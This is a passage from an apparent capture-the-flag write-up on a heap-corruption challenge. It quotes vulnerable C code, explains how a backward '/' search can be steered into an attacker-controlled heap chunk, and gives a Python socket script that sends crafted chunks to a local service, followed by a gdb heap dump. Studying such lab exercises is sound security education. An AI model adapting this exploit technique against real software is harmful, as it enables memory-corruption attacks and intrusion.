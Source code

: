 ```C
  p = rindex(buf, '/');
  l = strlen(p);
  if(p){
     start = strstr(buf, "ROOT");
     if(start) {
         while(*start != '/') start--;
         memmove(start, p, l);
     }
  }
```
the
>while(\*start != '/') start--;
keeps going backwards from string "ROOT" until it finds a '/'
but, if we remove the '/' before our "ROOT" the loop will probably seg fault because it will run into the unmapped memory
addresses before the heap.

we could solve this by allocating an another chunk after out first one, with a string that has no '/' before its "ROOT", its loop will keep going backwards to our first chunk
which we can control, by changing out padding to '/'s.


```python
import socket

s = socket.socket(socket.AF_INET)
s.connect(('127.1', 2993))

# first chunk
ck1 = "FSRD/0000ROOT/1111"
ck1 += "/" * (128 - (len(ck1)))
s.send(ck1)

# second chunk
ck2 = "FSRDROOT/"
ck2 += "A" * (128 - (len(ck2)))
s.send(ck2)
```
*i renamed the variable m to ck1 and ck2 to make easier to read*

we hit our first break point

if we examing the heap
```
(gdb) x/64wx 0x804e000
0x804e000:      0x00000000      0x00000089      0x44525346      0x3030302f
0x804e010:      0x4f4f5230      0x31312f54      0x2f2f3131      0x2f2f2f2f
0x804e020:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e030:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e040:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e050:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e060:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e070:      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f      0x2f2f2f2f
0x804e080:      0x2f2f2f2f      0x2f2f2f2f      0x00000000      0x00000f79
0x804e090:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0a0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0b0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0c0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0d0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0e0:      0x00000000      0x00000000      0x00000000      0x00000000
0x804e0f0:      0x00000000      0x00000000      0x00000000      0x00000000
```
*you could set a variable in gdb for the heap address with a 
> set $heap = 0x804e000
and examin the heap with a 
> x/64wx $heap*